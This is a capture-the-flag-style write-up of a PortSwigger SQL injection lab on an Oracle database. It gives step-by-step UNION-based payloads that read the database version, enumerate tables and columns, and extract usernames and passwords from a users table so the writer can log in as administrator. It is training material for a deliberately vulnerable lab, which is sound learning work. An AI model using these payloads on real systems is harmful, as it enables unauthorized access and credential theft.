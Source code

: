 # Portswigger  SQLi-Lab 8

## SQL injection attack, listing the database contents on Oracle

This labs is similar to lab#7 in which we listed the tables in postgresql database but now we are presented with oracle database on web application in which `category` a GET paramter is vulnerable to sqli

<img src="https://i.imgur.com/Jt0D4TO.png"/>

Knowing the database is orcale we can first try blind sqli 

<img src="https://i.imgur.com/TD9uRPH.png"/>

It works , now we need to identifiy the number of columns

<img src="https://i.imgur.com/TP1UFFC.png"/>

<img src="https://i.imgur.com/OAo04vU.png"/>

<img src="https://i.imgur.com/Vw8r6v4.png"/>

Here we get an error which means there are only 2 columns in the table, so now let's identify the version for that we need to supply a table name and for query the version we specify `v$version` table which is a builtin table having information for version of oracle database

```sql
Gifts' union select banner,null from v$version --
```

<img src="https://i.imgur.com/P2jxsOQ.png"/>

<img src="https://i.imgur.com/bsrkN0o.png"/>

Perfect now let's try leak table names

<img src="https://i.imgur.com/7DXliKM.png"/>

`all_tables` is similar to `information.schema.tables` which we have seen in postgresql which holds inforamtion all tables in database

```sql
Gifts' union select table_name,null from all_tables--
```

<img src="https://i.imgur.com/mHcWAA5.png"/>

<img src="https://i.imgur.com/YHxd42d.png"/>

Now we need to retrieve the column names for the table `USERS_BDRDAO`

```sql
Gifts' union select column_name,null from all_tab_columns where table_name = 'USERS_BDRDAO' --
```

<img src="https://i.imgur.com/gxYxkqH.png"/>

<img src="https://i.imgur.com/7SM1YSI.png"/>

<img src="https://i.imgur.com/6hXEjT0.png"/>

<img src="https://i.imgur.com/H90KE5s.png"/>

```sql
Gifts' union select USERNAME_ZYPQTA ,PASSWORD_INGWFD from USERS_BDRDAO --

```

And we got the credentials now we just need to login with the adminstartor account and we'll complete this lab

<img src="https://i.imgur.com/1lO1g9r.png"/>
